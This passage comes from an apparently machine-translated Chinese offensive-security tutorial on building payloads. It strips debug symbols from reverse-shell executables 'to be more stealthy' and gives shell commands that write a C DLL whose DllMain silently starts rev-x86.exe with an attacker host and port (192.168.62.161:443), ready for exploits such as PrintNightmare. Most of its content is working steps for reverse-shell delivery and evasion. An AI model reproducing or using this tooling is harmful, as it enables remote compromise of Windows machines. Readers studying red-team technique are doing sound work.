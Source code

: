 为了更加隐蔽，将删除调试符号。这也将把文件大小减少到大约 220 千字节。

```
strip /tmp/rev-x86.exe
strip /tmp/rev-x64.exe
```

![](img/3bed06ee72ef2852a9eb3105816af179.png)

使用 strip 命令移除调试符号

有时你需要一个. dll 文件(例如著名的 PrintNightmare 漏洞)。不幸的是，我没有成功地使用 nim 编译器创建 Windows dll 文件。如果你能做到这一点，请让我知道，我会更新这篇文章。好资源:[https://github . com/byt 3 bl 33d 3 r/offensive nim # creating-windows-dll-with-an-exported-dllmain](https://github.com/byt3bl33d3r/OffensiveNim#creating-windows-dlls-with-an-exported-dllmain)

或者，我们会用 C 来编译 Windows .dll，实际上 dll 文件只会执行命令*C:\ Windows \ Tasks \ rev-x86 . exe<LHOST><LPORT>。*这意味着您需要同时使用。dll 和。exe 文件。

4.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

创建 C 源代码，用于编译一个 Windows。dll 二进制文件。

```
LHOST=192.168.62.161
LPORT=443
cd /tmp
echo "#include <windows.h>" > testdll.c
echo "BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {" >> testdll.c
echo "if (dwReason == DLL_PROCESS_ATTACH) {" >> testdll.c
echo "system(\"START /B C:\\\\\\Windows\\\\\\Tasks\\\\\\\\rev-x86.exe ${LHOST} ${LPORT}\"); ">> testdll.c
echo "ExitProcess(0);" >> testdll.c
echo "} ">> testdll.c
echo "return TRUE;" >> testdll.c
echo "}" >> testdll.c
```

![](img/6d534132d956280acf90078dd44aa017.png)
